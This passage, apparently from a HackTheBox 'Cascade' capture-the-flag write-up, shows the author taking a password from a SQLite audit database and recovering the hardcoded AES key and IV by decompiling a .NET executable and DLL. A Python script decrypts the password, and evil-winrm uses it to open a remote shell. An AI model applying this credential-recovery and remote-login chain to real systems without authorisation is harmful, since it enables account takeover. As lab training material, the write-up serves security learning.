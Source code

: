 ```shell
$ cat RunAudit.bat 
CascAudit.exe "\\CASC-DC1\Audit$\DB\Audit.db"
```

The `Audit.db` is a `sqlite` db file.

```shell
$ file Audit.db                 
Audit.db: SQLite 3.x database, last written using SQLite version 3027002
```

![](2.png)

On the `ldap` table we find the username `ArkSvc` and what looks like a base64 encoded password, but when we try to decode it we fail.

Since this db file is being used by the executable `CascAudit.exe`, let's decompile it using `dnspy` maybe we can find how to decrypt it.

run `wine64 dnspy.exe` and open the `CascAudit.exe` file.

![](3.png)

We can see the code responsible for decoding the password.

The program is using a function called `Crypto.DecryptString` with the key  `c4scadek3y654321`, the function is not in the executable, maybe it's in the `.dll` file.

Let's open `CascCrypto.dll`

![](4.png)

To decrypt the password we can use the following python code:

```python
import pyaes
from base64 import b64decode

key = b"c4scadek3y654321"
iv = b"1tdyjCbY1Ix49842"
aes = pyaes.AESModeOfOperationCBC(key, iv = iv)
decrypted = aes.decrypt(b64decode('BQO5l5Kj9MdErXx6Q6AGOw=='))
print(decrypted.decode())
```

>Credits goes to HackTheBox team for this script, it can be found in the official writeup of Cascade.

```shell
$ python decode.py  
w3lc0meFr31nd
```

We got the password. let's login via `winrm`

```shell
$ evil-winrm -i cascade.local -u arksvc -p w3lc0meFr31nd

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\arksvc\Documents> 
```
